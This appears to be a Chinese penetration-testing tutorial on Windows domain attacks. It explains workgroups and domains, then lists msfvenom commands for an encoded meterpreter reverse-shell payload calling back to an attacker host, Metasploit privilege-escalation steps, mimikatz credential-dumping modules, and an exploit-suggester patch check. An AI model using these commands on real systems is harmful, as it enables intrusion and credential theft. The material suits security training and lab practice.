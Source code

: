 ```yaml
---
title: 域渗透入门
categories:
- WindowDomain
tags:
- WindowDomain
---
```

## 参考资料
- 乌云文章：《域内渗透基本技巧》
- [Kerberos概述及常见攻击场景](https://www.anquanke.com/post/id/200680)


## 录制的视频教程
首先搭一个域环境

- [域渗透原理篇](https://www.bilibili.com/video/BV1Cf4y1U73y/)
- [域渗透实践篇（一）](https://www.acfun.cn/v/ac14954038)

## 工作组和域的区别
1. 大小
工作组比较小，不超过20台。域用在比较大的网络，成百上千台。
2. 拓扑图
工作组中，所有机器的地位是平等的，一台计算机可以自由的加入或退出一个工作组。
3. 验证方式
在工作组中，用户名、密码存放在本地计算机。如果要登入其他计算机，必须提供用户名，密码；在域中，有一台域控（DC）服务器，其他计算机都要通过DC验证才能加入域。有域权限，可以登入任何域内计算机，无需知道计算机的账号也可以登入。
4. 网络
工作组计算机必须在同一个子网中；域的计算机可以在不同的本地网络中。

## 获得一个shell
```
生成恶意载荷
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=6678 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
---
设置监听器
handler -H 192.168.1.4 -P 6678 -p windows/meterpreter/reverse_tcp
---
反弹shell成功后，进行提权
sysinfo 		#查看windows是32位/64位
migrate         #如果是64位置，需要migrate到64位进程
search suggester
use 0
set session 1
run             #查找可以利用的exp
use exploit/windows/local/always_install_elevated  #使用提权exp
set session 1
```
## meterpreter mimikatz模块
```
      crypto	- Cryptographie et certificats
        hash	- Hash
      system	- Gestion syst�me
     process	- Manipulation des processus
      thread	- Manipulation des threads
     service	- Manipulation des services
   privilege	- Manipulation des privil�ges
      handle	- Manipulation des handles
 impersonate	- Manipulation tokens d'acc�s
     winmine	- Manipulation du d�mineur
 minesweeper	- Manipulation du d�mineur 7
       nogpo	- Anti-gpo et patchs divers
     samdump	- Dump de SAM   #导出sam密码
      inject	- Injecteur de librairies
          ts	- Terminal Server
      divers	- Fonctions diverses n'ayant pas encore assez de corps pour avoir leurs propres module
    sekurlsa	- Dump des sessions courantes par providers LSASS
         efs	- Manipulations EFS
```

## 信息搜集-补丁查找
```
shell
cd C:\Windows\Temp
systeminfo > info.txt

---
pip install xlrd 
pip install xlrd -upgrade
python .\windows-exploit-suggester.py --update
python .\windows-exploit-suggester.py -d  2020-04-16-mssb.xls -i info.txt
```
